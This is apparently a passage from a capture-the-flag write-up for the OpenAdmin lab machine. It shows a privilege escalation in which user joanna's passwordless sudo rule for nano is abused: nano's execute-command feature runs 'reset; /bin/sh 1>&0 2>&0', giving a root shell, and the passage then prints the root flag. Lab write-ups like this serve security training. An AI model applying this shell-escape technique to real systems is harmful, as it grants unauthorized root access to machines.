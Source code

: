 
### Privilege: Joanna ot Root
`$ sudo -l`
```
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
`$ ls -al /opt/priv`
```
-rw-r--r-- 1 root root 0 Nov 22  2019 /opt/priv
```

`$ sudo /bin/nano /opt/priv`
then `Ctrl + r` also `Ctrl + x`
```
reset; /bin/sh 1>&0 2>&0 #id
```
```
Command to execute: reset; /bin/sh 1>&0 2>&0 #id# id                                                                                                                        
uid=0(root) gid=0(root) groups=0(root)                                                ^X Read File
# ls /root/                                                                           M-F New Buffer
root.txt
# cat /root/root.txt
f4df8672fcd5ad1d8ae77377d9fe3a6f
# 
```

